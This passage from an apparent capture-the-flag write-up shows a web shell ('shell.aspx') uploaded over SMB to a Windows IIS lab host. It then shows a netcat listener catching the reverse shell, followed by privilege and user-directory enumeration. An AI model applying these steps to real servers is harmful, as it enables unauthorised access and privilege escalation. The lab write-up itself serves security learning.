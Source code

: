 `put shell.aspx` and `dir`:

```
smb: \> dir
  .                                   D        0  Mon Feb  7 00:06:01 2022
  ..                                  D        0  Mon Feb  7 00:06:01 2022
  shell.aspx                          A     3406  Mon Feb  7 00:28:47 2022
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
```

<br>

## Getting a shell

Now that we have our shell uploaded and in place I start a listener on my system and then navigate to the shell with my web browser. And we're in!

```
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.33.153] 49914
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

Running `whoami`:

```
iis apppool\defaultapppool
```

And a `whoami /priv`:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```


Running a `dir \users` shows us:

```
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\users

07/25/2020  01:03 PM    <DIR>          .
07/25/2020  01:03 PM    <DIR>          ..
07/25/2020  07:05 AM    <DIR>          .NET v4.5
07/25/2020  07:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  09:30 AM    <DIR>          Administrator
07/25/2020  01:03 PM    <DIR>          Bob
07/25/2020  06:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  21,052,170,240 bytes free
```
